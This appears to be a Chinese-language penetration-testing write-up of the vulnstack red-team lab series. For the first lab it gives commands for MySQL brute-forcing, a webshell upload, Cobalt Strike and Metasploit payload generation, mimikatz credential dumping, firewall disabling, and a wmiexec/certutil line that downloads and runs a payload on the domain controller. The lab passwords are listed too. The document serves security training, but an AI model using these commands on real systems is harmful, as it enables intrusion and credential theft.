

# vulnstack
## vulnstack1
### 官方介绍
[vulnstack1官方地址](http://vulnstack.qiyuanxuetang.net/vuln/detail/2/)

红队实战系列，主要以真实企业环境为实例搭建一系列靶场，通过练习、视频教程、博客三位一体学习。另外本次实战完全模拟ATT&CK攻击链路进行搭建，开成完整闭环。后续也会搭建真实APT实战环境，从实战中成长。关于环境可以模拟出各种各样实战路线，目前给出作者实战的一套攻击实战路线如下，虚拟机所有统一密码：hongrisec@2019：

一、环境搭建  
1.环境搭建测试  
2.信息收集

二、漏洞利用  
3.漏洞搜索与利用  
4.后台Getshell上传技巧  
5.系统信息收集  
6.主机密码收集

三、内网搜集  
7.内网--继续信息收集  
8.内网攻击姿势--信息泄露  
9.内网攻击姿势-MS08-067  
10.内网攻击姿势-SMB远程桌面口令猜测  
11.内网攻击姿势-Oracle数据库TNS服务漏洞  
12.内网攻击姿势-RPC DCOM服务漏洞

四、横向移动  
13.内网其它主机端口-文件读取  
14.内网其它主机端口-redis  
15.内网其它主机端口-redis Getshell  
16.内网其它主机端口-MySQL数据库  
17.内网其它主机端口-MySQL提权

五、构建通道  
18.内网其它主机端口-代理转发

六、持久控制  
19.域渗透-域成员信息收集  
20.域渗透-基础服务弱口令探测及深度利用之powershell  
21.域渗透-横向移动[wmi利用]  
22.域渗透-C2命令执行  
23.域渗透-利用DomainFronting实现对beacon的深度隐藏  
24.域渗透-域控实现与利用

七、痕迹清理  
25、日志清理
### 环境搭建
web服务器 win 7 桥接模式&仅主机模式（192.168.52.143 / 192.168.1.133(9)），登录后进入`C:\phpStudy`启动小皮面板。


域控win sevrer 2008 仅主机模式（192.168.52.138）

域成员 win server 2003 仅主机模式（192.168.52.141）

攻击机 kali NAT模式（192.168.1.131）

**启动后要求修改密码，修改为：hongrisec@2022**
### 信息收集
**从此开始kali ip为192.168.1.131；win7 ip为192.168.1.9**
使用`netdiscover -i eth0 -r 192.168.1.0/24`（arp方式，目标开启防火墙时有奇效）或`nmap -sP -T4 192.168.1.0/24` 对当前C段主机进行存活扫描。

netdiscover扫描结果如下：


192.168.1.1一般为网关地址，结合zte corporation判断其为中兴的网关系统。

192.168.1.2是物理机IP地址，予以排除。

192.168.1.5是TP-LINK的设备，应为路由器，予以排除。

192.168.1.8为鸿海精工代工的某设备，一般为电视或打印机等，予以排除。

192.168.1.9为VMware虚拟机，确定为目标机。

如下为nmap的扫描结果，与上相似。


使用`sudo nmap -sC -sV -Pn -O -p- 192.168.1.9`扫描目标机的开放端口。
``` shell
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-12 03:59 EDT
Nmap scan report for bogon (192.168.1.9)
Host is up (0.00030s latency).
Not shown: 65523 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2j PHP/5.4.45)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
|_http-title: phpStudy \xE6\x8E\xA2\xE9\x92\x88 2014 
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: GOD)
1025/tcp open  msrpc        Microsoft Windows RPC
1026/tcp open  msrpc        Microsoft Windows RPC
1027/tcp open  msrpc        Microsoft Windows RPC
1028/tcp open  msrpc        Microsoft Windows RPC
1029/tcp open  msrpc        Microsoft Windows RPC
1083/tcp open  msrpc        Microsoft Windows RPC
3306/tcp open  mysql        MySQL (unauthorized)
5357/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
MAC Address: 00:0C:29:57:52:B5 (VMware)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop
Service Info: Host: STU1; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: stu1
|   NetBIOS computer name: STU1\x00
|   Domain name: god.org
|   Forest name: god.org
|   FQDN: stu1.god.org
|_  System time: 2022-09-12T16:01:22+08:00
|_clock-skew: mean: -2h40m00s, deviation: 4h37m07s, median: -1s
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: STU1, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:57:52:b5 (VMware)
| smb2-time: 
|   date: 2022-09-12T08:01:22
|_  start_date: 2022-09-12T05:54:10
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.99 seconds
```

发现80、3306端口判断应为连接了数据库的web服务器，归纳信息如下：
- 中间件：Apache/2.4.23 (Win32)；
- SSL：OpenSSL/1.0.2j；
- 编程语言：PHP/5.4.45；
- 数据库：MySQL；
- 部署平台：小皮2014；
- 操作系统：Windows 7 Professional SP1

访问`http://192.168.1.9`得到php探针页面，泄露服务器相关信息：


下方数据库连接检测处尝试爆破mysql密码。
**从此开始kali ip变更为192.168.1.131；win7 ip变更为192.168.1.133**
打开proxy拦截MySQL检测数据包，`C-i`传到攻击模块中，猜测存在root用户，密码处添加爆破点，选择字典开始爆破。


发现存在弱口令root/root，在kali终端中尝试远程连接`mysql -h 192.168.1.133 -P 3306 -u root -p root`（一般设了禁用远程连接不会成功）。


用御剑扫描网站的目录。

显然存在网站备份beifen.rar

phpinfo界面

phpmyadmin管理后台

用root/root登录phpmyadmin，脱库。

admin表中存在密码信息

尝试用md5破解


得到949ba59abbe56e05，看似不是密码。
解压备份rar，使用`tree`命令展示目录结构。
```
D:.
└─beifen
    └─yxcms
        ├─data
        │  ├─db_back
        │  │  └─1384692844
        │  └─session
        ├─protected
        │  ├─apps
        │  │  ├─admin
        │  │  │  ├─controller
        │  │  │  ├─model
        │  │  │  └─view
        │  │  ├─appmanage
        │  │  │  ├─code
        │  │  │  │  ├─controller
        │  │  │  │  ├─model
        │  │  │  │  └─view
        │  │  │  ├─controller
        │  │  │  ├─model
        │  │  │  └─view
        │  │  ├─default
        │  │  │  ├─controller
        │  │  │  ├─model
        │  │  │  └─view
        │  │  │      └─default
        │  │  ├─install
        │  │  │  ├─controller
        │  │  │  ├─model
        │  │  │  └─view
        │  │  └─member
        │  │      ├─controller
        │  │      ├─model
        │  │      └─view
        │  ├─base
        │  │  ├─api
        │  │  ├─controller
        │  │  ├─extend
        │  │  └─model
        │  ├─cache
        │  │  ├─log
        │  │  └─tmp
        │  └─include
        │      ├─core
        │      │  ├─cache
        │      │  └─db
        │      ├─ext
        │      │  └─phpmailer
        │      └─lib
        ├─public
        │  ├─admin
        │  │  ├─css
        │  │  ├─images
        │  │  └─js
        │  ├─artDialog
        │  │  ├─plugins
        │  │  └─skins
        │  │      ├─aero
        │  │      │  └─ie6
        │  │      ├─black
        │  │      │  └─ie6
        │  │      ├─blue
        │  │      │  └─ie6
        │  │      ├─chrome
        │  │      ├─green
        │  │      │  └─ie6
        │  │      ├─icons
        │  │      ├─idialog
        │  │      │  └─ie6
        │  │      └─opera
        │  │          └─ie6
        │  ├─codeEditor
        │  ├─css
        │  ├─default
        │  │  └─default
        │  │      ├─css
        │  │      ├─images
        │  │      └─js
        │  ├─dict
        │  ├─images
        │  │  └─graphics
        │  │      └─outlines
        │  ├─install
        │  │  └─images
        │  ├─js
        │  ├─kindeditor
        │  │  ├─lang
        │  │  ├─plugins
        │  │  │  ├─anchor
        │  │  │  ├─autoheight
        │  │  │  ├─baidumap
        │  │  │  ├─ckplayer
        │  │  │  ├─clearhtml
        │  │  │  ├─code
        │  │  │  ├─emoticons
        │  │  │  │  └─images
        │  │  │  ├─filemanager
        │  │  │  │  └─images
        │  │  │  ├─flash
        │  │  │  ├─flv
        │  │  │  ├─image
        │  │  │  │  └─images
        │  │  │  ├─insertfile
        │  │  │  ├─lineheight
        │  │  │  ├─link
        │  │  │  ├─map
        │  │  │  ├─media
        │  │  │  ├─multiimage
        │  │  │  │  └─images
        │  │  │  ├─pagebreak
        │  │  │  ├─plainpaste
        │  │  │  ├─preview
        │  │  │  ├─quickformat
        │  │  │  ├─table
        │  │  │  ├─template
        │  │  │  │  └─html
        │  │  │  └─wordpaste
        │  │  └─themes
        │  │      ├─common
        │  │      ├─default
        │  │      ├─qq
        │  │      └─simple
        │  ├─member
        │  │  ├─css
        │  │  ├─images
        │  │  └─js
        │  ├─uploadify
        │  └─watermark
        └─upload
            ├─extend
            ├─fragment
            │  └─image
            ├─links
            ├─news
            │  ├─file
            │  ├─flash
            │  ├─image
            │  │  ├─20120716
            │  │  ├─20130407
            │  │  ├─20130709
            │  │  └─20131114
            │  └─media
            ├─pages
            │  └─image
            └─photos
```
猜测网站url为`http://192.168.1.133/yxcms/`，访问。

公告信息中泄露了后台入口和管理员账号密码。


### 渗透
登录后台

前台模板处可以文件上传

上传木马

在网站备份中检索特征字符串，找到文件上传的位置。

三个路径都试一下，得到core的位置：`http://192.168.1.133/yxcms/protected/apps/default/view/default/core.php`，用蚁剑连接成功get shell。

### 内网渗透
启动CS服务端


启动CS客户端。


添加监听器。


生成后门。


在蚁剑中上传木马。


执行木马文件，CS上线。


获取密码凭证。


使用mimikatz抓取明文密码。


观察到在god域中Administrator的密码为hongrisec@2022。执行命令开启靶机的3389端口并关闭防火墙（为了进行远程桌面连接，若只想对域进行控制此步可以省略）。
```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

关闭防火墙
netsh firewall set opmode disable   			#winsows server 2003 之前
netsh advfirewall set allprofiles state off 	#winsows server 2003 之后
```


执行命令查看域中的信息。
```
net group /domain  #查看域内所有用户列表
net view /domain
net view /domain:god
net group "domain computers" /domain #查看域成员计算机列表
net group "domain admins" /domain #查看域管理员用户
```


远程桌面登录靶机。


ipconfig得到内网网段：192.168.52.1/24。


上传局域网查看器，并扫描内网存活主机。


根据之前获取到的域内信息，除本机外存在域控OWA（192.168.52.138）、域成员ROOT-TVI862UBEH（192.168.52.141），并得知二者的系统信息。

**路径1：**

右键目标使用svc-exe进行提权看到system上线。


在交互会话中键入`net view`查看域中的成员，在目标列表中可以看到新出现的目标。


建立新的SMB监听器。


右击域控OWA，选择横向移动-psexec，选择域控的明文密码。


运行之后域控上线，权限为system。


用同样的方法上线域成员。


至此完成对整个域的控制。

**路径2：**

在kali中打开msf，并执行以下命令准备一个监听，准备将shell从cs移交给msf。
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 2222
```


在CS中新建一个监听器，payload选择foreign http，地址和端口都和kali保持一致。


右键CS中的靶机选择新建会话，payload选择刚创建的Amsf。


发现无论如何都不出网，尝试用msf生成木马
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.131 LPORT=2222 -f exe > shell.exe
```


原型改为reverse_tcp，开始监听，用蚁剑上传木马并执行。


msf成功收到连接。


执行`migrate -N explorer.exe`迁移到不易被关闭的进程上。


执行`run get_local_subnets`获得当前子网，执行`run autoroute -s 192.168.52.0/24`添加路由（background挂起会话后运行`route add 10.1.81.0/24 1`），执行`run autoroute -p`查看当前存活路由表。


在win7上发现nmap，扫描一下域控开启的端口。


端口445开启疑似存在ms17-010漏洞，回到msf测试一下，执行如下命令。
```
background
search ms17-010
use 3
set rhosts 192.168.52.138
run
```


仿佛可以利用，执行如下命令。
```
search ms17-010
use 0
set payload windows/x64/meterpreter/bind_tcp
set rhosts 192.168.52.138
set lport 11111
```

利用不成功，报不能建立SMBv1连接。


经过百度发现需要开启postgresql服务，重新run。


情况有所好转但还是不能建立连接。


生成正向shell木马，和wmiexec.vbs一起用蚁剑上传到win7的C盘根目录下。
```
 msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=6666 -f exe > she11.exe
```

```
cscript.exe wmiexec.vbs /cmd 192.168.52.138 administrator hongrisec@2022 "certutil.exe -urlcache -split -f http://192.168.52.143/she11.exe&she11.exe"

cscript.exe wmiexec.vbs /cmd 192.168.52.138 administrator hongrisec@2022 "certutil.exe -urlcache -split -f http://192.168.52.143/she11.exe | she11.exe"

```


## vulnstack2
### 官方介绍
红队实战系列，主要以真实企业环境为实例搭建一系列靶场，通过练习、视频教程、博客三位一体学习。本次红队环境主要Access Token利用、WMI利用、域漏洞利用SMB relay，EWS relay，PTT(PTC)，MS14-068，GPP，SPN利用、黄金票据/白银票据/Sid History/MOF等攻防技术。关于靶场统一登录密码：1qaz@WSX
1.  Bypass UAC
2.  Windows系统NTLM获取（理论知识：Windows认证）
3.  Access Token利用（MSSQL利用）
4.  WMI利用
5.  网页代理，二层代理，特殊协议代理（DNS，ICMP）
6.  域内信息收集
7.  域漏洞利用：SMB relay，EWS relay，PTT(PTC)，MS14-068，GPP，SPN利用
8.  域凭证收集
9.  后门技术（黄金票据/白银票据/Sid History/MOF）
#### 环境说明
内网网段：10.10.10.1/24
DMZ网段：192.168.111.1/24
测试机地址：192.168.111.1（Windows），192.168.111.11（Linux）
防火墙策略（策略设置过后，测试机只能访问192段地址，模拟公网访问）：
deny all tcp ports：10.10.10.1
allow all tcp ports：10.10.10.0/24
#### 配置信息
**DC**
IP：10.10.10.10OS：Windows 2012(64)
应用：AD域
**WEB**
IP1：10.10.10.80IP2：192.168.111.80OS：Windows 2008(64)
应用：Weblogic 10.3.6MSSQL 2008
**PC**
IP1：10.10.10.201IP2：192.168.111.201OS：Windows 7(32)
应用：
**攻击机**
IP：192.168.111.1OS：Windows 10(64)
IP：192.168.111.11OS：Parrot(64)
## vulnstack3
### 官方介绍
基本信息
**作者：**licong
环境配置
**打开虚拟机镜像为挂起状态，第一时间进行快照，部分服务未做自启，重启后无法自动运行。**
**挂起状态，账号已默认登陆，centos为出网机，第一次运行，需重新获取桥接模式网卡ip。**
**除重新获取ip，不建议进行任何虚拟机操作。**
参考虚拟机网络配置，添加新的网络，该网络作为内部网络。
**注：名称及网段必须符合上述图片，进行了固定ip配置。**
描述
**目标：域控中存在一份重要文件。**
本次环境为黑盒测试，不提供虚拟机账号密码。
## vulnstack4
### 官方介绍
大家好红日安全红队靶场（四）已经出来，本次靶场渗透**反序列化漏洞、命令执行漏洞、Tomcat漏洞、MS系列漏洞、端口转发漏洞、以及域渗透**等多种组合漏洞，希望大家多多利用。
#### 红队评估四靶场描述
**第一次搭建靶机，如有啥不足或问题，欢迎各位师傅在vlunstack微信群里提出，向师傅们学习**
其它靶场下载地址
-   红队评估一：[http://vulnstack.qiyuanxuetang.net/vuln/detail/2/](http://vulnstack.qiyuanxuetang.net/vuln/detail/2/)
-   红队评估二：[http://vulnstack.qiyuanxuetang.net/vuln/detail/3/](http://vulnstack.qiyuanxuetang.net/vuln/detail/3/)
-   红队评估三：[http://vulnstack.qiyuanxuetang.net/vuln/detail/5/](http://vulnstack.qiyuanxuetang.net/vuln/detail/5/)
-   Web安全靶场下载：[http://vulnstack.qiyuanxuetang.net/vuln/detail/4/](http://vulnstack.qiyuanxuetang.net/vuln/detail/4/)
#### 靶场学习路径，可参考
-   st漏洞利用
-   phpmyadmin getshell
-   tomcat 漏洞利用
-   docker逃逸
-   ms14-068
-   ssh密钥利用
-   流量转发
-   历史命令信息泄露
-   域渗透
#### 环境说明
**机器密码**
-   ubuntu:ubuntu**域成员机器**
-   douser:Dotest123**DC:**
-   administrator:Test2008
## vulnstack5
### 官方介绍
大家好，ATT&CK第五个攻防靶场已经出来了，此次靶场虚拟机共用两个，一个外网一个内网，用来练习红队相关内容和方向，主要包括常规信息收集、Web攻防、代码审计、漏洞利用、内网渗透以及域渗透等相关内容学习，此靶场主要用来学习，请大家遵守网络网络安全法。
#### 描述
##### 虚拟机密码
**win7**
`sun\heart 123.com`
`sun\Administrator dc123.com`
**2008**
`sun\admin 2020.com`
Win7双网卡模拟内外网
#### 红队思路
**一、环境搭建**
-   1.环境搭建测试
-   2.信息收集
**二、漏洞利用**
-   3.漏洞搜索与利用
-   4.漏洞利用Getshell
-   5.系统信息收集
-   6.主机密码收集
**三、内网搜集**
-   7.内网--继续信息收集
-   8.内网攻击姿势--MS14-058
-   9.内网攻击姿势--MS17-010
**四、横向移动**
-   10.psexec远控
-   11.内网其它主机端口
-   12.netsh增删防火墙规则
**五、构建通道**
-   13.内网其它主机端口-代理转发
**六、持久控制**
-   14.域渗透-域成员信息收集
-   15.域渗透-基础服务弱口令探测及深度利用之powershell
-   16.域渗透-横向移动[wmi利用]
-   17.域渗透-域控实现与利用
**七、痕迹清理**
-   18、日志清理
## vulnstack6
### 官方介绍
大家好，ATT&CK第六个攻防靶场，当前第六、七靶场为蓝队职业体系课程，vulnstack也开源分享出来，目前此套靶场已经录制视频教程，因蓝队体系是收费课程，所以大家根据自己需求选择。本次主要考核内容为从某CMS漏洞然后打入内网然后到域控，主要包括常规信息收集、Web攻防、代码审计、漏洞利用、内网渗透以及域渗透等相关内容学习，此靶场主要用来学习，请大家遵守网络网络安全法。
此次红队评估两个靶场结合蓝队的环境，一共会搭建两个，如下
-   **实验思路**
    -   某CMS漏洞渗透某内网域控
    -   代码审计渗透到内网域控
#### 拓扑图
#### 环境
WEB IP:192.168.111.80
DC IP:10.10.10.10
本机 VMnet1
IP:10.10.10.1;
本机 VMnet8
IP:192.168.111.1
恢复快照 3.1，本机配置好 IP，可 ping 通 10.10.10.10，可远程桌面 192.168.111.80 即可，模拟环境，本机使用 192 地址操作。
#### 实验目的
获取 DC 服务器权限
#### 视频课程
[http://qiyuanxuetang.net/courses/detail/30/](http://vulnstack.qiyuanxuetang.net/vuln/detail/8/)
## vulnstack7
### 官方介绍
大家好，第七个ATT&CK综合性靶场和大家见面了，第七个靶场为投稿靶场，也希望大家踊跃投稿。主要包括常规信息收集、Web攻防、代码审计、漏洞利用、内网渗透以及域渗透等相关内容学习，此靶场主要用来学习，请大家遵守网络网络安全法。
#### **ATT&CK模拟攻击路径**
ATT&CK模拟攻击路径,2021年红日重新打造ATT&CK靶场，结合ATT&CK最新攻击实战TTP，然后把相关路径结合到靶场当中，当练习者可以从攻击过程中学习到这个框架带来的好处，由于攻击方法太多，所以会选取一些具备代表性内容，可能也会选取一些APT案例。
-   Active Scanning-T1595
-   Exploit Public-facing Application-T1190
-   Command and Interpreter-T1059
-   Scheduled Task/Job-T1053
-   Boot or Logon Autostart Execution-T1547
-   Brute-Force-T1110
-   Input Capture-T1056
-   OS Credential Dumping-T1003
-   Remote Service-T1021
-   Application Layer Protocal-T1071
#### **环境说明**
DMZ区IP段为192.168.1.1/24
-   第二层网络环境IP段为192.168.52.1/24
-   第三层网络环境IP段为192.168.93.1/24
#### **环境配置**
在Vmware中新增两个虚拟网卡VMnet8、VMnet14。VMnet8设为默认的NAT模式，IP段设为192.168.52.0/24；VMnet14设为仅主机模式，IP段设为192.168.93.0/24：
将VMnet8作为第二层网络的网卡，VMnet14作为第三层网络的网卡。这样，第二层网络中的所有主机皆可以上网，但是位于第三层网络中的所有主机都不与外网相连通，不能上网。
**DMZ区域：**
-   给Ubuntu (Web 1) 配置了两个网卡，一个桥接可以对外提供服务；一个连接在VMnet8上连通第二层网络。
**第二层网络区域：**
-   给Ubuntu (Web 2) 和Windows 7 (PC 1)都配置了两个网卡，一个连接在VMnet8上连通第二层网络，一个连接在VMnet14上连通第三层网络。
**第三次网络区域：**
-   给Windows Server 2012和Windows 7 (PC 2)都只配置了一个网卡，一个连接在VMnet14上连通第三层网络。
#### **服务配置**
靶场中各个主机都运行着相应的服务并且没有自启功能，如果你关闭了靶机，再次启动时还需要在相应的主机上启动靶机服务：
**DMZ区的 Ubuntu 需要启动redis和nginx服务：**
-   redis-server /etc/redis.conf
-   /usr/sbin/nginx -c /etc/nginx/nginx.conf
-   iptables -F
**第二层网络的 Ubuntu需要启动docker容器：**
-   sudo service docker start
-   sudo docker start 8e172820ac78
**第三层网络的 Windows 7 （PC 1）需要启动通达OA：**
-   `C:\MYOA\bin\AutoConfig.exe`
#### **域用户信息**
域用户账户和密码如下：
-   Administrator：Whoami2021
-   whoami：Whoami2021
-   bunny：Bunny2021
-   moretz：Moretz2021
Ubuntu 1：
-   web：web2021
Ubuntu 2：
-   ubuntu：ubuntu
通达OA账户：
-   admin：admin657260
#### **靶场涉及知识点**
**信息收集：**
-   端口扫描
-   端口服务识别
**漏洞利用：**
-   漏洞搜索与利用
-   Laravel Debug mode RCE（CVE-2021-3129）漏洞利用
-   Docker逃逸
-   通达OA v11.3 漏洞利用
-   Linux环境变量提权
-   Redis 未授权访问漏洞
-   Linux sudo权限提升（CVE-2021-3156）漏洞利用
-   SSH密钥利用
-   Windows NetLogon 域内权限提升（CVE-2020-1472）漏洞利用
-   MS14-068漏洞利用
**构建隧道：**
-   路由转发与代理
    -   二层网络代理
    -   三层网络代理
**横向移动：**
-   内网（域内）信息收集
-   MS17-010
-   Windows系统NTLM与用户凭据获取
-   SMB Relay攻击
-   Psexec远控利用
-   哈希传递攻击（PTH）
-   WMI利用
-   DCOM利用
**权限维持：**
-   黄金票据
-   白银票据
-   Sid History
#### **靶场WriteUp**
[https://www.freebuf.com/articles/network/264560.html](https://www.freebuf.com/articles/network/264560.html)